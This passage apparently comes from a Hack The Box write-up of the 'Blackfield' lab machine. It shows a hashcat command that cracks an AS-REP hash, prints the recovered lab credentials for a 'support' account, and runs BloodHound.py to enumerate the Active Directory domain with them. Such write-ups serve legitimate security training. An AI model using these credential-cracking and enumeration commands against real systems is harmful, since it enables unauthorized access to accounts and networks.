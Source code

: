 We can use `hashcat` for crack the HASH using module 18200.

```bash
hashcat -m 18200 -a 0 AS-REP ~/Desktop/htb-tool/rockyou.txt
```

![](/assets/img/blackfield/3.png)

notif from hashcat successfully crack the hash with status cracked, now im gonna going to `forensic$` share using this creds.

`support:#00^BlackKnight`

![](/assets/img/blackfield/4.png)

we still dont have any access to this share, for further i will use [Bloodhound.py](https://github.com/fox-it/BloodHound.py) to collect information regarding targets.

```bash
./bloodhound.py -d BLACKFIELD.local -u support -p '#00^BlackKnight' -ns 10.10.10.192 -c all
```

![](/assets/img/blackfield/5.png)
